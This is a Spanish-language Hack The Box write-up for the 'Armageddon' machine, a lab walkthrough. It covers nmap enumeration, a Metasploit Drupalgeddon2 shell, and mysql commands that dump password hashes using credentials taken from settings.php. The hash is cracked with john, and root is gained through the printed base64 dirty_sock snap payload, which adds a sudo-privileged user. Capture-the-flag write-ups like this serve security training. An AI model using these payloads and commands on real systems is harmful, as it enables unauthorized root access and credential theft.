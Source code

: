 ```yaml
---
title: "HTB - Armagedon"
author: "Oscar Bravo"
header: 
  teaser: "/assets/images/post/2021/armeggedon.png"
categories:
  - WriteUp
tags:
  - HTB
  - Maquina
---
```



OS | LINUX
Desarrollado por | bertolis
Dificultad | Fácil
Liberación | 27 Marzo 2021
Puntos | 20

## Enumeración

Al usar nmap utilizando nmap -sCV -A 10.10.10.233 solo encontramos que está abierto el 80 (web)

```
# Nmap 7.91 scan initiated Sun May 16 20:18:43 2021 as: nmap -p 22,80 -sSC -oN Nmap.txt
10.10.10.233
Nmap scan report for 10.10.10.233
Host is up (0.23s latency).
PORT STATE SERVICE
22/tcp open ssh
| ssh-hostkey:
|  2048 82:c6:bb:c7:02:6a:93:bb:7c:cb:dd:9c:30:93:79:34 (RSA)
|  256 3a:ca:95:30:f3:12:d7:ca:45:05:bc:c7:f1:16:bb:fc (ECDSA)
|_ 256 7a:d4:b3:68:79:cf:62:8a:7d:5a:61:e7:06:0f:5f:33 (ED25519)
80/tcp open http
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
|_http-title: Welcome to Armageddon | Armageddon
# Nmap done at Sun May 16 20:18:52 2021 -- 1 IP address (1 host up) scanned in 9.00 seconds
```

Empezamos a hacer reconocimiento de la web con whatsweb y nos damos cuenta que es un drupal, y con ayuda de robots.txt podemos ver el CHANGELOG.txt nos damos cuenta que es un drupal v. 7.58.

Con searchxploit nos damos cuenta que hay un exploit en Metasploit llamado **exploit/unix/webapp/drupal_drupalgeddon2** que nos permite obtener la 1° shell 

![Armageddon 1](/assets/images/post/2021/armeggedon.png)

## 1° Shell

<p>Revisamos la carpeta sites y de ahí se busca los datos de la conexión a la base de datos que se encuentra en /var/www/html/sites/default/settings.php y vemos que son usuario drupaluser y password CQHEy@9M*m23gBVj, el problema es que tenemos una shell muy básica por lo que nos obliga a usar el siguiente script para enumerar la BD.</p>

```
· mysql -u drupaluser -pCQHEy@9M*m23gBVj -e 'show databases;'
· mysql -u drupaluser -pCQHEy@9M*m23gBVj -D drupal -e 'show tables;'
· mysql -u drupaluser -pCQHEy@9M*m23gBVj -D drupal -e 'select name,pass from users;'
```

Para así obtener los datos de *brucetherealadmin* y obtener el hash de su clave. Con la ayuda de john the ripper y utilizando el diccionario rockyou obtenemos la clave booboo.

```
[brucetherealadmin@armageddon ~]$ john pass --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (Drupal7, $S$ [SHA512 256/256 AVX2 4x])
No password hashes left to crack (see FAQ)

[brucetherealadmin@armageddon ~]$ john pass —show
?:booboo

1 password hash cracked, 0 left
```

## Shell Usuario

Con la clave obtenida podemos ingresar mediante ssh. Una vez adentro podemos leer la flag de usuario.

<p>Lo primero que debemos ver es si tenemos algun permiso de sudoer con sudo -l, y nos damos cuenta que tenemos permiso para /usr/bin/snap install *, por lo que buscamos si tenemos alguna forma de escalar privilegios.</p>

Investigando vemos que podemos crear nuestra propia aplicación snap usando el proyecto disrty_socket, lo que generará un usuario con escalada de privilegios locales.

```
[brucetherealadmin@armageddon ~]$ python -c "print
('aHNxcwcAAAAQIVZcAAACAAAAAAAEABEA0AIBAAQAAADgAAAAAAAAAI4DAAAAAAAAhgMAAAAAAAD//////////xICAAAA
AAAAsAIAAAAAAAA+AwAAAAAAAHgDAAAAAAAAIyEvYmluL2Jhc2gKCnVzZXJhZGQgZGlydHlfc29jayAtbSAtcCAnJDYkc1
daY1cxdDI1cGZVZEJ1WCRqV2pFWlFGMnpGU2Z5R3k5TGJ2RzN2Rnp6SFJqWGZCWUswU09HZk1EMXNMeWFTOTdBd25KVXM3
Z0RDWS5mZzE5TnMzSndSZERoT2NFbURwQlZsRjltLicgLXMgL2Jpbi9iYXNoCnVzZXJtb2QgLWFHIHN1ZG8gZGlydHlfc2
9jawplY2hvICJkaXJ0eV9zb2NrICAgIEFMTD0oQUxMOkFMTCkgQUxMIiA+PiAvZXRjL3N1ZG9lcnMKbmFtZTogZGlydHkt
c29jawp2ZXJzaW9uOiAnMC4xJwpzdW1tYXJ5OiBFbXB0eSBzbmFwLCB1c2VkIGZvciBleHBsb2l0CmRlc2NyaXB0aW9uOi
AnU2VlIGh0dHBzOi8vZ2l0aHViLmNvbS9pbml0c3RyaW5nL2RpcnR5X3NvY2sKCiAgJwphcmNoaXRlY3R1cmVzOgotIGFt
ZDY0CmNvbmZpbmVtZW50OiBkZXZtb2RlCmdyYWRlOiBkZXZlbAqcAP03elhaAAABaSLeNgPAZIACIQECAAAAADopyIngAP
8AXF0ABIAerFoU8J/e5+qumvhFkbY5Pr4ba1mk4+lgZFHaUvoa1O5k6KmvF3FqfKH62aluxOVeNQ7Z00lddaUjrkpxz0ET
/XVLOZmGVXmojv/IHq2fZcc/VQCcVtsco6gAw76gWAABeIACAAAAaCPLPz4wDYsCAAAAAAFZWowA/Td6WFoAAAFpIt42A8
BTnQEhAQIAAAAAvhLn0OAAnABLXQAAan87Em73BrVRGmIBM8q2XR9JLRjNEyz6lNkCjEjKrZZFBdDja9cJJGw1F0vtkyjZ
ecTuAfMJX82806GjaLtEv4x1DNYWJ5N5RQAAAEDvGfMAAWedAQAAAPtvjkc+MA2LAgAAAAABWVo4gIAAAAAAAAAAPAAAAA
AAAAAAAAAAAAAAAFwAAAAAAAAAwAAAAAAAAACgAAAAAAAAAOAAAAAAAAAAPgMAAAAAAAAEgAAAAACAAw'+ 'A' * 4256
+ '==')" | base64 -d > racso.snap
sudo snap install racso.snap —devmode
```

## Root Shell

Con el usuario dirty_socket creado (dirty_sock:dirty_sock) utilizamos sudo su para acceder como root y obtener la flag.

```
[brucetherealadmin@armageddon ~]$ su dirty_sock
Contraseña:
[dirty_sock@armageddon brucetherealadmin]$ sudo su
[root@armageddon brucetherealadmin]#
````

![Racso](https://www.hackthebox.com/badge/image/159593)